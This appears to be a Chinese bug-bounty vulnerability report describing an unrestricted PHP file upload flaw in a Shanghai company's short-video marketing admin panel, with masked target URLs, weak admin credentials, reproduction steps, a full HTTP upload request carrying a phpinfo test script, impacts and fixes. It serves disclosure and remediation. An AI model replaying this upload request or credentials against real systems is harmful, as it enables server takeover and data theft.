







上海XXXX科技有限公司存在文件上传漏洞

基础信息

1.漏洞标题：上海XXXX科技有限公司后台收款设置存在文件上传漏洞，可直接上传解析 PHP 脚本获取服务器权限

2.漏洞大类：事件型漏洞

3.漏洞类型：文件上传

4.漏洞等级：高危

5.厂商名称：上海XXXX科技有限公司

6.目标域名：zxxxxxxxxxxxo.com

7.漏洞上传接口：https://dxxxxn.zxxxxxxxxxxxo.com/admin/user/upload_add.html

8.访问上传文件地址：https://dxxxxn.zxxxxxxxxxxxo.com/uploads/images/20260715/e8799df9d580dbb97c00c437c7cfb0a6.php

9.前置测试账号：admin / 123456

二、简要描述

后台财务中心 - 收款设置模块文件上传功能无任何服务端安全校验，攻击者登录后台后可直接上传 PHP 脚本文件，上传文件可通过公网 URL 直接访问，Web 服务器正常解析执行 PHP 代码，存在远程代码执行高危漏洞，攻击者可完全控制服务器、窃取全站源码与数据库数据。

详细细节

目标资产与环境基础信息

2. 漏洞原理

上传功能仅前端简单限制文件格式，后端未校验文件后缀、文件头部魔数、MIME 类型，上传文件使用原始文件名存储，上传目录配置允许解析 PHP 脚本，恶意 PHP 文件上传后可直接公网访问执行代码。

3. 完整复现步骤

1.使用 admin/123456 账号登录短视频矩阵营销系统后台；

2.左侧菜单栏打开【财务中心】→【收款设置】，页面存在图片上传控件；

此处可利用文件上传漏洞

3.本地新建test.php测试文件，写入验证代码：

<?php phpinfo();?>

4.上传框选中 test.php 提交，服务端无拦截，页面直接返回上传成功；

5.通过抓包响应获取上传文件公网访问 URL；

https://dxxxxn.zxxxxxxxxxxxo.com/uploads/images/20260715/e8799df9d580dbb97c00c437c7cfb0a6.php

6.浏览器直接访问该链接，页面完整输出 PHP 环境信息，脚本被服务器正常解析执行。

4.POC（完整上传 HTTP 请求包）：

POST /admin/user/upload_add.html HTTP/2

Host: dxxxxn.zxxxxxxxxxxxo.com

Cookie: PHPSESSID=u3e5b4iga47fgag9hrgcuaeo3l

Content-Length: 305

Cache-Control: max-age=0

Sec-Ch-Ua:

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: ""

Upgrade-Insecure-Requests: 1

Origin: https://dxxxxn.zxxxxxxxxxxxo.com

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDW8PiUBspobYJmuD

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: iframe

Referer: https://dxxxxn.zxxxxxxxxxxxo.com/admin/user/upload.html

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

------WebKitFormBoundaryDW8PiUBspobYJmuD

Content-Disposition: form-data; name="id"

6

------WebKitFormBoundaryDW8PiUBspobYJmuD

Content-Disposition: form-data; name="image"; filename="test.php"

Content-Type: application/octet-stream

<?php phpinfo();?>

------WebKitFormBoundaryDW8PiUBspobYJmuD—

5. 漏洞危害

攻击者上传 WebShell 后门后可远程执行系统命令，读取网站源码、数据库账号密码、客户隐私数据；

篡改网站页面、植入恶意广告、挂马诱导访客；

横向探测、渗透内网服务器，窃取企业核心业务资料；

完全控制服务器，可删除全站业务数据、对外发起网络攻击，造成企业业务瘫痪。

四、修复方案

白名单限制文件后缀：仅允许 jpg/png/gif 等图片后缀，彻底拦截 php、phtml、asp 等脚本后缀，禁止黑名单过滤方式；

双重校验文件真实性：同时校验文件后缀 + 文件头部魔数，仅放行合法图片文件，过滤包含脚本代码的图片马；

上传目录禁用脚本执行权限：Nginx/Apache 配置上传目录禁止解析 PHP 等脚本文件，从底层阻断代码执行；

上传文件强制随机重命名：使用 UUID 随机生成文件名，剥离原始后缀，杜绝截断、后缀绕过等攻击手段；

增加 MIME 类型校验：校验请求头 Content-Type，仅放行 image/* 类图片类型；

后台权限管控：修改管理员弱口令admin/123456，增加登录验证码、错误锁定机制，避免攻击者轻易登录后台触发上传漏洞；

上传行为日志审计：记录所有上传文件、操作账号、访问 IP，及时发现恶意上传行为。

补天平台提交漏洞截图：

| 信息项 | 详情 |
| 所属厂商 | 上海XXXX科技有限公司 |
| 备案信息 | 沪 ICP 备 1xxxxxx0 号 - 1 |
| 一级域名 | zxxxxxxxxxxxo.com |
| 漏洞子域名 | dxxxxn.zxxxxxxxxxxxo.com |
| 服务器 IP | 122.XX.XX.XX（阿里云上海节点） |
| 操作系统 | Linux |
| Web 服务 | nginx |
| 后端环境 | PHP + ThinkPHP 框架 |
| 服务端口 | 443（HTTPS） |
| 系统名称 | 短视频矩阵营销系统 |
| 系统定位 | 短视频矩阵营销管理平台，服务于抖音等短视频平台的矩阵号运营 |
| SSL 证书状态 | 已过期，浏览器访问会显示不安全警告 |